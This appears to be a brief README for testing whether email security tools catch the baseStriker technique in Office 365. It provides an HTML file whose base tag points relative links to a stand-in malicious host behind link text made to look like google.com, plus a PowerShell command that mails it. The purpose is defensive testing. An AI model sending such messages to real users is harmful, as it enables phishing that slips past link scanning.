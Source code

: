 As of 2018-05-14, Microsoft Office 365 email is vulnerable to the baseStriker attack. You can use the htm file and script below to test this if your email security solution is able to turn base tags into safelinks.

Create the following files in the same folder and run the baseStriker_test.ps1 PowerShell script.

baseStriker_Test.htm
 <html>
 <head>
      <base href="https://www.malicioussite.com/">
 </head>
 <body>
 Base Link: <a href="attack">https:/www.google.com/</a><br>
 Normal Link: <a href="https://www.malicioussite.com/attack">https:/www.google.com/</a>
 </body>
 </html>

baseStriker_test.ps1
 [String]$body = gc "baseStriker_Test.htm" 
 Send-MailMessage -SmtpServer <smtp_server> -From <from_address> -To <to_address> -Subject "baseStriker Test" -Body $body 